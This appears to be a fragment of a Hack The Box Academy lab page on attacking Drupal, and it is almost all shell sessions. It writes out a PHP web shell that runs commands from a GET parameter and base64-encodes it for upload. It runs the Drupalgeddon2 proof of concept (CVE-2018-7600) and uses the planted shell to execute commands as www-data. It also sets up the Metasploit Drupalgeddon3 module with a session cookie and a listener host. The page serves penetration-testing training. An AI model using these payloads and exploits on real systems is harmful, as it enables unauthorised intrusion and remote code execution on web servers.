 ``` shell-session
[!bash!]$ curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```

``` php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

``` shell-session
[!bash!]$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

``` shell-session
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

``` shell-session
[!bash!]$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
```

``` shell-session
[!bash!]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Drupalgeddon3

![https://academy.hackthebox.com/storage/modules/113/burp.png](https://academy.hackthebox.com/storage/modules/113/burp.png)

``` shell-session
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
```